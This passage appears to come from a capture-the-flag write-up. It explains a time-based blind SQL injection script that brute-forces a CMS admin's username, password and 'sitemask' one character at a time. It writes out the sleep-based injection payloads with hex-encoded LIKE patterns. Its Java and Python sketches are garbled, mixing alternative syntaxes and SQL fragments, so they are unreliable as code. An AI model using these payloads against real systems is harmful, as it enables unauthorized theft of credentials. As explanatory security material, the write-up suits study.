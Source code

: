 Well, the first statement of the SQL query is very simple, the script is selecting a `sleep` of `1` second and is using the **cms_users** table. But what meaning the rest of the query? The `LIKE` command in SQL is used to compare the value of the column with anything. So in this case, the script is comparing the value of the column `username` with the value of the variable `db_name` and the value of the column `user_id` with the value of the variable `user_id`.
####
The `db_name` is a character string that is in the **dictionary**. The `user_id` is a number in this case is `1` beacause in all databases the first user usually be the **admin**. The `LIKE` command start comparing the first character, so is very similar to indicate this:
####
```java
db_name = "";
for(var x in dictionary) || for(int i = 0; i < dictionary.length; i++) {
    db_name += x || db_name += dictionary[i];
    if(username.startsWith(x)) || if(username.charAt(i) == db_name.charAt(i))

    // The characteres will be concat 
    // db_name = a
    // db_name = ad
    // db_name = admi
    // db_name = admin

    WHERE username LIKE db_name
}

In some moment the 
```
####
Is a aproximation in **Java** in **Python3** will be:
####
```python
# Is the same of the java code only transformed to python
db_name = ""
for i in range(0, len(dictionary)):
    db_name += dictionary[i]
    if username.startswith(db_name) OR if username.index(i) == db_name.index(i)

    # The characteres will be concat 
    # db_name = a
    # db_name = ad
    # db_name = admi
    # db_name = admin

    WHERE username LIKE db_name
```
####
The same happend with the other functions:
####
```sql
SELECT sleep(1) FROM cms_users WHERE password LIKE 0x{dictionary[i]}25 AND user_id LIKE 0x31--
SELECT sleep(1) FROM cms_siteprefs WHERE sitepref_value LIKE 0x{dictionary[i]}25 AND sitepref_name LIKE 0x736974656d61736b--

-- The date is encoded in hex:
    -- 25 = %
    -- 31 = 1
    -- 736974656d61736b = sitemask
```
####
You can decode that data for see in plane text using **echo** and **xxd** command: `echo '0x736974656d61736b' | xxd -r -p`
####
| Xxd param | Description |
| ----- | ----- |